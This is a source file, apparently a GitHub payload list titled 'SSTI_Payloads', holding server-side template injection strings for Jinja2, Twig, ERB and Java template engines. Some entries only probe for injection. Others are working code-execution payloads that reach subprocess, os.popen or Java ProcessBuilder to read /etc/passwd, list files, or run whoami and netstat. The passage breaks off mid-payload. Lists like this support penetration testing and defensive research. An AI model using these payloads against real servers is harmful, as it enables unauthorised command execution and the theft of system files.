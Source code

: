 # SSTI_Payloads

${{<%[%'"}}%
${{7*7}}
${{3*'3'}}
<%= 3 * 3 %>
${6*6}
{{dump(app)}}
{{app.request.server.all|join(',')}}
{{config.items()}}
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
{{''.__class__.__base__.__subclasses__()}}
{{''.__class__.__base__.__subclasses__()[227]('cat /etc/passwd', shell=True, stdout=-1).communicate()}}
{{''.__class__.mro()[1].__subclasses__()[396]('cat /etc/passwd',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval("var x=new java.lang.String('xxx')")}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval("var x=new java.lang.ProcessBuilder; x.command("whoami"); x.start()")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval("var x=new java.lang.ProcessBuilder; x.command("netstat"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance
